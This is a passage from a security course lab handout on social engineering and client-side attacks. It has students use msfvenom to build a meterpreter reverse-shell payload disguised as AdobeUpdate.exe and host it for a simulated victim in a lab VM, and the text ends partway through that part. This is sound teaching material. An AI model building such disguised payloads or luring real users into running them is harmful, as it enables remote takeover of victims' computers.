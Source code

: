 ```yaml
---

title: "Lab: Social Engineering"
number: 11
description: "Only amateurs attack machines; professionals target people."
published: true
---
```


Today, social engineering attacks represent a major primary vector for hackers.
As Bruce Schneier [said][1], “Only amateurs attack machines; professionals target people.”
Further, client-side software represents a much larger attack surface than
server-side software. For these reason, many of the major breaches you read
about in the news began with a client-side attack.

[1]: https://www.schneier.com/crypto-gram-0010.html

In this lab you’ll use two leading tools to perform client-side attacks:
`msfvenom` and the Social Engineering Toolkit (SET). All of these attacks involve
creating a malicious payload
that you trick the user into executing. Both `msfvenom` and `set` use the Metasploit-Framework
to create the payloads, and you are on your own to trick the user.


# Part 1. MSFVenom with fake AdobeUpdate.exe

In this section, you’ll use `msfvenom` to perform a client-side attack.  Your
goal is to:

1. Create a malicious executable file containing a payload
2. Host it on a web server disguised as an Adobe Update file.

Following this, you will play the role of the victim using the Windows
VM. You will:

1. Download the malicious file
2. Run the file, leading to the Windows VM being exploited.


To start, log in to Kali, and start up the Windows virtual machine.

## Play the attacker

4.    In Kali, type `msfvenom --list formats` to see a list of output formats that
      msfvenom supports. Examine the "Framework Executable Formats" section.
      We’ll use `exe` option (via `-f exe`) option to create a Windows executable.
5.    In Kali, run the following command, all on one line:

      ```bash
      msfvenom -p windows/meterpreter/reverse_tcp LHOST=virbr1 -f exe > /tmp/AdobeUpdate.exe
      ```

      Where:

      * `-p` -- selects the payload to be the same one we used during the exploitation lab -- `meterpreter`.
      * `-f exe` -- selects the file type of the output executable
      * `LHOST=virbr1` -- sets LHOST to be the name of the adapter on which Kali has its 192.168.56.0/24 address. msfconsole should translate it for us.
      * `> /tmp/AdobeUpdate.exe` -- redirects the output from running the `msfvenom` command into a file called `AdobeUpdate.exe`, stored in the `/tmp` directory.
